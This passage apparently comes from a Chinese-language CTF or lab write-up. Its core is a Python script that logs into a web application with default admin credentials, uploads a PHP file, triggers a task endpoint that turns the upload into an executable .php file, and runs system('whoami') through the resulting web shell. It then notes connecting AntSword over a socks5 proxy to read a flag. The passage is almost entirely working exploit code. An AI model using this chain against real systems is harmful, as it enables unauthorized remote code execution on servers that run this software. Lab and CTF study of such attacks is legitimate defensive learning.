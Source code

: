 如下

```plain
import requests

session = requests.session()

url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=::',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}


r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']

url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('whoami');")
print(url_pre + filepath + "?1=system('whoami');")
print(r.text)
```

蚁剑挂上 `socks5` 代理，成功读取第二部分 flag

[![](assets/1710899037-0e209d458a30792ad00e69ff3b996eda.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205353-42d8a2b2-d56f-1.png)
